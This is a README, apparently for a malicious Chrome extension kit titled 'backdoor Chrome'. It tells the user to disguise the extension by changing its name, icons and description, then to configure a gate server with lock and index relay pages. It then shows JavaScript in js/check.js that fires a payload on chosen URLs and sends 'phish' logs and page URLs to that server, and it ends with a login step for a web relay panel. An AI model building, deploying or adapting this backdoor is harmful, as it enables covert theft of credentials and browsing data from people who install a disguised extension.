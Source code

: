 ![backdoor Chrome](http://s9.postimg.org/vvo5ncxy7/chrome.png)

## Change name, icones, description

change it on manifest

![Backdoor chrome](http://s15.postimg.org/yf0rmsfuj/rename.png)

## Change Gate
```JavaScript
    var server_web = "http://localhost:8888/"
    var lock_page = "relais/lock.php"
    var gate_page = "relais/index.php"
```

## lock.php

Update lock page with 1

![Backdoor lock](http://s27.postimg.org/vahc0lb8z/lock.png)

## Check URL ( js/check.js )
```JavaScript
    // VERIFIED D'URL
    if(tabURL.indexOf('') !== -1 ) // url in ''
    {
        Payload_exemple();
    }
```

## Create payload ( js/check.js )
```JavaScript
    // PAYLOAD FUNCTION NEED HTTPS
    function Payload_exemple()
    {
        console.log('Injected here')
        var urls = "" // Var for URL
        var phish = "" // Var for logs 
        $.get(server_web+gate_page, { info: phish, url: urls } );
    }
```

## Go to web relais

```shell
Url = 
Login = 
```